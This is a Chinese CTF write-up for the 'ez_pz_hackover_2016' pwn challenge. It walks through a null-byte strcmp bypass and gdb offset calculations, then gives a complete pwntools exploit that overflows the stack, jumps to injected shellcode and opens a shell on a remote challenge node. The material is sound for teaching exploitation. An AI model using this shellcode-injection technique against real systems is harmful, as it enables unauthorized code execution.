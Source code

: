 ### Strcmp 绕过注入

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67afe790d0e0a243d4ff7a3a.png)

首先调用了 chall()

![](https://pic1.imgdb.cn/item/67afe94fd0e0a243d4ff7acd.png)

strcmp 比较函数可使用 \x00 绕过

![](https://pic1.imgdb.cn/item/67afe7acd0e0a243d4ff7a3b.png)

最后从 src 中拷贝 0x400 字节到 dest 中

![](https://pic1.imgdb.cn/item/67afe7e3d0e0a243d4ff7a41.png)

gdb 动态调试

```python
from pwn import *

p=process('./ez_pz_hackover_2016')
context.log_level='debug'

gdb.attach(p,'b *0x8048600')

p.recvuntil('crash: ')
stack=int(p.recv(10),16)

shellcode=asm(shellcraft.sh())

payload='crashme\x00'+b'aaaaa'
p.sendline(payload)

pause()
```

0x7263 是 cr，ebp 为 0x38 距离输入差 0x38-0x20+0x2 = 0x16

![](https://pic1.imgdb.cn/item/67afecced0e0a243d4ff7af9.png)

程序开头给出了栈地址

![image-20250215093613521](C:\Users\ydd33\AppData\Roaming\Typora\typora-user-images\image-20250215093613521.png)

我们的 shellcode 应该写在 ebp 之后（32位程序的 ebp 占 4 个字节），就是在 0x16+0x4 处

换句话说我们在覆盖完 ebp 后的返回地址应该填写指向 shellcode 的地址

我们输入点距离我们的返回地址的距离是 0x3c - 0x20 = 0x1c

所以我们可以用 oxffced7cc - 0x1c 来表示返回地址

![](https://pic1.imgdb.cn/item/67b00157d0e0a243d4ff8014.png)

构造 payload

```python
from pwn import *

r = remote('node5.buuoj.cn',27869)

r.recvuntil('crash: ')

stack = int(r.recv(10),16)
shellcode = asm(shellcraft.sh())

payload = b'crashme\x00' + b'a' * (0x16 - 8 + 4) + p32(stack - 0x1c) + shellcode

r.sendline(payload)
r.interactive()
```

